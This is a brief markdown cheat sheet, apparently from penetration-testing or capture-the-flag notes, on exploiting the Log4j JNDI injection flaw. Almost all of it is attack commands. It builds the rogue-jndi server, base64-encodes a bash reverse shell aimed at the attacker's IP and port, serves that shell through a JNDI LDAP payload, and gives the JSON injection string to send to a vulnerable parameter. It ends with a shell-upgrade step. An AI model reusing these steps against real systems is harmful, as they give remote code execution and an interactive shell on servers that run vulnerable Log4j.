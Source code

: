 # Log4J
## Introduction

## Requirements
```bash
apt update
apt install openjdk-11-jdk -y
apt-get install maven
mvn -v
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi  
mvn package
```

## Pass the payload
Use the rogue-jdni server to pass a payload. First base64 encode the reverse shell payload.
```bash
echo 'bash -c bash -i >&/dev/tcp/$IP$/$PORT 0>&1' |  
base64
```
Then within the `rogue-jndi` directory.
```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo, $ENCODEDPAYLOAD} | {base64,-d}|{bash,-i}" --hostname "$IP"
```

Post response set "vulnerable parametre to:
Note: port 1389 is the rogue-jndi server
```json
{
	vuln:"${jndi:ldap://$IP:1389/o=tomcat}",
}
```
Upgrade th terminal shell:
```bash
script /dev/null -c bash
```
